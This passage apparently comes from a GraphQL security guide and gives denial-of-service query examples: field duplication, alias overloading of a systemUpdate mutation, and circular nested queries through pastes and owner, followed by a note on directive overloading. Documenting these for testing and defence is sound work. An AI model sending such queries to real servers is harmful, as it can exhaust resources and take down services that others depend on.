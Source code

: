 ```graphql
{
  user {
    id
    email
    email
    email
  }
}
```

***

#### **Alias Overloading**&#x20;

GraphQL aliases can be exploited to send multiple requests with different names in a single query, which can overwhelm the server.

```graphql
query {
    one:systemUpdate
    two:systemUpdate
    three:systemUpdate
    four:systemUpdate
    five:systemUpdate
}
```

* **Chaining Aliases and Circular Queries:**&#x20;

```graphql
# Circular queries with aliases
query {
        q1:pastes {
            owner {
                pastes {
                    owner {
                        name
                    }
            }
        }
    }
    q2:pastes {
       owner {
           pastes {
               owner {
                   name
                   }
               }
           }
       }
}
```

* **Directive Overloading**: Similar to field duplication, this involves sending many directives with a query, exhausting the server’s query parsers.
